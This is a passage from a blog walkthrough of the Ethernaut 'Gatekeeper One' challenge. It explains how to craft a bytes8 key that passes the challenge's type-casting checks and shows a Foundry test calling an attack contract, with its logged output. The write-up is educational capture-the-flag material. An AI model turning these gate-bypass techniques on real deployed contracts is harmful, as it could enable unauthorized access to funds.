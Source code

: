 To satisfy `gateOne()`, we simply need to call `enter(_gateKey)` from a contract that we deploy.
As for `gateThree`, we need a `bytes8` key (16 hex characters) satisfying each of the 3 require statements.
- `uint32(uint64(_gateKey)) == uint16(tx.origin)` implies that the last 8 hex characters of the key have to equal the last 4 hex characters of `tx.origin` (a9E1 for me)
    - `0x????????0000a9E1` works. Recall that casting down for ints follows little endian (keep rightmost characters)
- `uint32(uint64(_gateKey)) == uint16(uint64(_gateKey))` implies that last 8 hex characters of the key have to equal the last 4 hex characters 
    - `0x????????0000a9E1` still works
- `uint32(uint64(_gateKey)) != uint64(_gateKey)` implies that the last 8 hex characters of the key cannot equal the full 16 hex characters
    - `0xFFFFFFFF0000a9E1` as the final `_gateKey` satisfies this, since `0xFFFFFFFF0000a9E1 != 0x0000a9E1`

As shown below, you can use `console.log` as done in my [test script](https://github.com/axucar/ethernaut-forge/blob/main/test_archive/GatekeeperOne.t.sol#L19-L22) to verify that the key works. See [previous blog](http://axucar.ca/2022/09/09/foundryexplain/#test-locally-using-foundry) on how to run Foundry tests locally for debugging purposes by forking the live testnet.

```solidity
// test/GatekeeperOne.t.sol
pragma solidity ^0.8.10;

import "forge-std/Test.sol";
import "src/AttackGatekeeperOne.sol";

contract ContractTest is Test {
    AttackGatekeeperOne gkp;
    function setUp() public {
        gkp = new AttackGatekeeperOne(0x590aAf34f517B1ADc569bfB48420227FE0D0ceD8);
    }

    function testGatekeeper() public{
        bytes8 _key = 0xffffffff0000a9E1; 
        vm.startPrank(0x9bdcf9696e273aFd83992b1Fb5672A70532ca9E1,0x9bdcf9696e273aFd83992b1Fb5672A70532ca9E1);

        console.logBytes8(_key);
        console.log("uint16(uint64(_key)): %s", uint16(uint64(_key)) );
        console.log("uint32(uint64(_key)): %s", uint32(uint64(_key)) );
        console.log("uint64(_key): %s", uint64(_key));
        console.log("uint16(tx.origin): %s", uint16(uint160(0x9bdcf9696e273aFd83992b1Fb5672A70532ca9E1)));

        gkp.attack(_key,0);
        vm.stopPrank();
    }
}
```
```text
Logs:
0xffffffff0000a9e1
uint16(uint64(_key)): 43489
uint32(uint64(_key)): 43489
uint64(_key): 18446744069414627809
uint16(tx.origin): 43489
```

